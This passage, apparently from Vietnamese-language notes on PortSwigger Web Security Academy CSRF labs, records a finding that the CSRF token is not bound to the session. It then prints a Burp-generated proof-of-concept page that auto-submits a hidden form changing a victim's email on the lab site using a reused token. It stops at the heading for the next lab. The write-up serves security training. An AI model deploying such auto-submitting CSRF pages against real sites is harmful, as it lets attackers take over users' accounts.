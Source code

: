 302 found => csrf không gắn với session

- craft payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5b007d04bde8c180a958ae00db00ee.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wienr2&#64;testsuccess&#46;com" />
      <input type="hidden" name="csrf" value="59GRiBb3KQKFxgenN5zZn3fbb13IOWJf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![image-20250602134412795](./image/image-20250602134412795.png)

### [Lab 4: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
